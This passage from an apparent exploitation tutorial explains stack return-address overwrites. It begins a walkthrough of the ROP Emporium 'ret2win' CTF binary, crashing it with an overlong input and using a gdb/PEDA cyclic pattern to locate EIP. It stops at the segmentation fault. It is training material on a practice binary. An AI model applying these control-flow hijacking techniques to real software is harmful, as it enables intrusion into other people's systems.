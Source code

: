 ```asm
pop ebx
jmp ebx
```
If you're interested in a more detailed exploration of how the stack works, Gustavo Duarte's [Journey to the Stack](http://duartes.org/gustavo/blog/post/journey-to-the-stack/) is a great read.

Hopefully, now we can see how we can hijack command of a program's execution rather than just overwriting variables, with this technique.  If we can overwrite enough past our buffer, we can overwrite the saved return address.  Once a `ret` is called, the address we've overwritten will be jumped to.  So how do we use this?

Example 2 - ret2win
-----------------
We'll be using the first binary challenge on [ropemporium](https://ropemporium.com/challenge/ret2win.html), called ret2win for this.  For this we're going to be hijacking execution of the program.

When an unreachable address is jumped to for execution, the program will exit in a segmentation fault.  If we want to execute an arbitrary command, all we have to do is force a segmentation fault to prove that we've overwritten the saved return address.  So lets load up the binary and input some text.

```bash
root@kali:~/Downloads# python -c 'print "A"*200' | ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Segmentation fault
```

Boom!  We got a segmentation fault, but it doesn't give us much of a clue how many bytes we'll need to overwrite.  We can either modify the amount we overwrite byte by byte, or use a cyclic sequence to read off the location of EIP.  Metasploit has it's `pattern_create.rb` and [PEDA](https://github.com/longld/peda) has it's own `pattern create`.

We'll create a buffer of length 200, and see the value that `eip` segfaults on.

```gdb
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /root/Downloads/ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
```
